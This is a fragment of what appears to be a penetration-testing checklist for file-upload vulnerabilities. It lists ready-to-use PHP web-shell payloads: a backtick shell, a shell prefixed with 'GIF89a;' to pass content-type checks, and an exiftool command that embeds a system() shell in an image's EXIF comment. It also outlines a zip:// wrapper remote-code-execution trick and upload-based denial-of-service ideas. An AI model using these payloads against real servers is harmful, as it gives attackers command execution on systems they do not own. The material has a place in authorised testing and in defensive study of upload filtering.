             ```php
            (<?=`$_GET[x]`?>)
            ```

        - [ ]  Content Bypass Shell
            - If they check the Content. Add the text "GIF89a;" before you shell-code. ( `Content-type: image/gif` )

            ```php
            GIF89a; <?php system($_GET['cmd']); ?>
            ```

    - Misc
        - [ ]  Uploading `file.js` & `file.config` (web.config)
        - [ ]  Pixel flood attack using image
        - [ ]  DoS with a large values name: `1234...99.png`
        - [ ]  Zip Slip
            - If a site accepts `.zip` file, upload `.php` and compress it into `.zip` and upload it. Now visit, `site.com/path?page=zip://path/file.zip%23rce.php`
        - [ ]  Image Shell
            - Exiftool is a great tool to view and manipulate exif-data. Then I will to rename the file `mv pic.jpg pic.php.jpg`

            ```php
            exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' pic.jpg
            ```
